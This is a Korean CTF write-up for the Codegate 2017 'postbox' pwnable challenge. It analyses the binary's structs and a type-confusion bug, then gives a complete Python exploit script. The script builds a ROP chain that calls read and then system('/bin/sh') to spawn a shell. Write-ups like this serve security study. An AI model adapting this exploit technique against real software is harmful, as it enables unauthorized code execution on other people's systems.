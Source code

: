 ```yaml
---
layout:     post
title:      "Codegate 2017 postbox write-up"
subtitle:   "codegate 2017 prequals pwnable"
date:       2018-02-15
author:     "NextLine"
header-img: "img/post-bg-1.png"
tags:
    - WriteUp
---
```


# Codegate 2017 PostBox WriteUp

### 1. Intro

분석에 애를 먹었으며 사실 아직까지 다 분석하지 못했다. 귀찮으니 분석하고싶을때 다시 해봐야겠다. 익스플로잇도 정말 감으로 했는데 oneshot을 쓰면 되는거였다. ㅠ


### 2. Binary & Vulnerability

static 바이너리라 ida FLIRT를 이용해 심볼을 복구해서 봤다.

Register / Un-Register / Edit -> Register
- name + "\x00" (12 byte)
- phone + "\x00" (15 byte)
- zipcode + "\x00" (7 byte)
- address + "\x00" (90 byte)

Register / Un-Register / Edit -> Edit
- name + "\x00" (11 byte)
- phone + "\x00" (15 byte)
- zipcode + "\x00" (6 byte)
- address + "\x00" (96 byte)

Create
- kind - atoi(64byte)
- price - atoi(128byte) (max : 1000000)
- info + "\x00" (11 byte)
- name + "\x00" (12 byte)
- phone + "\x00" (14 byte)
- zipcode + "\x00" (7 byte)
- address + "\x00" (98 byte)
- payment - atoi (4 byte)

Change
- name + "\x00" (11 byte)
  - summary : ' to '를 찾아서 거기서부터 10바이트 붙여넣음.
- phone + "\x00" (15 byte)
- zipcode + "\x00" (6 byte)
- address + "\x00" (100 byte)
- payment - atoi(4 byte)

0x4009d0 (이건 함수하나에 대해 분석)
- malloc(40) - box
- box -> manage =malloc(0x300)
- box -> chunk_size = 0x300
- box -> use = 48
- box -> manage -> chunk = box -> manage -> chunk_data[0xf0 * i]

```c
### Struct ###

struct Box{
	Box_chunk_manage *manage;
	__int64 chunk_size;
	__int64 use;
	__int64 AAAA;
}

struct Box_chunk_manage{
	__int64 flag;
	__int64 chunk_count;
	__int64 *chunk[4];
	char chunk_data[0x2d0];
}

struct User_info{
	__int64 *user_vt;
	char name[16];
	char phone[16];
	char zipcode[16];
	char address[120];
	__int64 *vt2;
}

struct Res_info{
	char name[16];
	char phone[13];
	char zipcode[5];
	char address[90];
	__int32 pay;
}

struct Res_vtable{
	__int64 *edit_res_name;
	__int64 *edit_res_phone;
	__int64 *edit_res_zip;
	__int64 *edit_res_add;
	__int64 *make_summary;
}

struct Post_info{
	__int64 *box_vt;
	__int64 kind;
	Res_vtable res_vt;
	char post_info[16];
	char summary[24];
	Res_info res_info;
	__int64 price;
}
```

위처럼 분석을 했는데 큰 의미는 없었다. 이것저것 만지다보니 하나의 청크를 두개가 동시에 가르키고 있는 경우가 있어서, register과 post사이에 타입컨퓨전으로 인해 rip가 바뀔꺼라 예측하고 손퍼징으로 rip를 바꿨다..<br>익스플로잇은 적절히 바이너리 내에서 입력받는곳으로 rip를 바꾸고 스택에 입력을 받은뒤 rip를 더해 거기까지 가주고 rop chain을 구성해서 풀었다. 하지만 static에 system 함수에는 one_shot gadget이 존재한다. PPP는 그걸로 exploit 했던데 그생각을 못했다.



### 3. Exploit

```python
from ntpwn import *
import string

s = process('./postbox')
b = BP(s)
#b.bp64(0x2d8b)
b.bp64(0x7f07f)
b.done()
log.info("USER : " + hex(0x2c00))

def regi(name,phone,zipcode,address):
	s.sendlineafter('-> ','1')
	s.sendlineafter('-> ',name)
	s.sendlineafter('-> ',phone)
	s.sendlineafter('-> ',zipcode)
	s.sendlineafter('-> ',address)

def unregi():
	s.sendlineafter('->','1')
	s.sendlineafter('->','Y')

def create(kind,price,info,rec_name,rec_phone,rec_zipcode,rec_address,payment):
	s.sendlineafter('-> ','2')
	s.sendlineafter('-> ',kind)
	s.sendlineafter('-> ',price)
	s.sendlineafter('-> ',info)
	s.sendlineafter('-> ',rec_name)
	s.sendlineafter('-> ',rec_phone)
	s.sendlineafter('-> ',rec_zipcode)
	s.sendlineafter('-> ',rec_address)
	s.sendlineafter('-> ',payment)

def change(idx, content):
	s.sendlineafter('->','1')
	s.sendlineafter('->','n')
	s.sendlineafter('->','y')
	s.sendlineafter('->',idx)
	s.sendafter('->',content)
	s.sendlineafter('->','5')

def send(idx):
	s.sendlineafter('->','4')
	s.sendlineafter('->',idx)

regi('C' * 8,'A','A',p64(0x6D2BE0) * 11)
change('2','\xc0\x16\x40\x41' + "\x00" * 10)
create('8','10','NEXTLINEPOST', 'B' * 9, 'C'* 9, 'D' * 5,'A'+'E' * 92,'Y')
send('1')

for i in range(5):
	create('8','10','NEXTLINE', 'B' * 9, 'C'* 9, 'D' * 5,'A'+'E' * 92,'Y')

unregi()
send('2')

read = 0x446360
system = 0x4129b0
prdi = 0x404346
prdxrsi = 0x4497b9
bss = 0x6d3400

payload = '\x46\x43\x40\xff' + p32(0) + p64(0) # prdi
payload += p64(prdxrsi) + p64(0x100) + p64(bss)
payload += p64(read)
payload += p64(prdi) + p64(bss)
payload += p64(system)

# send - 3 (change zipcode)
s.sendlineafter('->','4')
s.sendlineafter('->','3')
s.sendlineafter('->','3')
s.sendlineafter('->','\x7f\xf0\x47')
s.sendlineafter('->','5')

# change - zipcode (call 0x401e10)
s.sendlineafter('->','3')
s.sendlineafter('->','3')
s.sendlineafter('->','2')
s.sendlineafter('->','A' * (0x88-5) + payload + 'A' * 0x80)
s.recvuntil('->')

pause()
# change - address (jmp add rsp, 0x68 ; ret)
s.sendlineafter('->','4')
s.recv(1024)
s.sendline('/bin/sh')

s.interactive()
```


